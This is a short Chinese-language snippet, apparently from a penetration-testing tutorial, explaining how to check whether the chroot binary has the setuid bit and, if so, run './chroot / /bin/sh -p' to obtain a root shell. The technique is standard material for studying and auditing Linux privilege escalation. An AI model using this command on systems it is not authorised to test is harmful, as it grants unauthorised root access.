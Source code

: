 查看 chroot 权限：

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/chroot.png)

如果 chroot 具有 s 权限，可使用如下命令获取 root 权限：

```
./chroot / /bin/sh -p
```
![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/chroot2.png)
